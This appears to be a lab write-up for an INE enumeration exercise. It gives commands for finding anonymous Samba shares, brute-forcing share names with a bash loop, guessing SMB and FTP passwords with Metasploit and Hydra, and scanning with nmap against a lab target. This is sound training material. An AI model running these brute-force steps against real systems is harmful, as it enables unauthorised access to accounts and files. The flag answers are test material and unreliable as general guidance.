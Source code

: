 # Assessment Methodologies: Enumeration

## Questions and Resolutions

### Q1. There is a samba share that allows anonymous access. Wonder what’s in there!

**Resolution:**  
Use enum4linux to determine which shares allow anonymous login.
```bash
enum4linux -a target.ine.local
```
If no shares allow anonymous access, brute-force the shares using a script with a wordlist (example script below):

```bash
#!/bin/bash
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"
while read -r SHARE; do
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    fi
done < "$WORDLIST"
```
Once found, access the share:
```bash
smbclient //target.ine.local/pubfiles -N
```
Download and read the file using `cat`.

### Q2. One of the samba users has a bad password. Their private share with the same name as their username is at risk!

**Resolution:**  
Identify usernames using enum4linux (e.g., josh, bob, nancy, alice). Use Metasploit's smb_login module to enumerate weak passwords:
- Set a users.txt file with these usernames.
- Set a password wordlist as PASS_FILE.

Example:
```
use auxiliary/scanner/smb/smb_login
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
set RHOSTS target.ine.local
run
```
Once you discover valid credentials, log in:
```bash
smbclient //target.ine.local/josh -U josh
```
Download and read the file.

### Q3. Follow the hint given in the previous flag to uncover this one.

**Resolution:**  
If you find a hint about the FTP service, use nmap to check open ports:
```bash
nmap -p- target.ine.local
```
If FTP is on a non-standard port (e.g., 5554), brute-force weak credentials with Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Log in with discovered credentials, download the file, and read its contents.

### Q4. This is a warning meant to deter unauthorized users from logging in.

**Resolution:**  
Review nmap results to identify an SSH service. Try to connect and investigate banners or messages for further information.
